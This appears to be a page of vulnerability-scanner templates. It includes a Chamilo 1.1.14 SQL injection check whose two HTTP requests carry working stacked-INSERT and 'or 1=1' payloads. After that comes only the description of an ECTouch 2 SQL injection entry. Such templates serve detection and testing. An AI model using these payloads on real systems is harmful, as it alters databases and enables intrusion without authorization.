 ## Description

- Chamilo 1.1.14 contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - chamilo,sqli

## Requests

### Step - 1

```
POST /main/inc/ajax/extra_field.ajax.php?a=search_options_from_tags HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

type=image&field_id=image&tag=image&from=image&search=image&options=["test'); INSERT INTO extra_field_rel_tag(field_id, tag_id, item_id) VALUES (16, 16, 16); INSERT INTO extra_field_values(field_id, item_id,value) VALUES (16, 16,'{{randstr}}'); INSERT INTO extra_field_options(option_value) VALUES ('{{randstr}}'); INSERT INTO tag (id, tag, field_id,count) VALUES(16, '{{randstr}}', 16,0) ON DUPLICATE KEY UPDATE     tag='{{randstr}}', field_id=16, count=0;  -- "]

```

### Step - 2

```
POST /main/inc/ajax/extra_field.ajax.php?a=search_options_from_tags HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

type=image&field_id=image&tag=image&from=image&search=image&options=["test') or 1=1 -- "]

```

### Matchers

**Type - dsl**

- dsl
  1. contains(body_2, "{{randstr}}")

---

# ECTouch 2 - SQL Injection

## Description

- ECTouch 2 contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - etouch,sqli
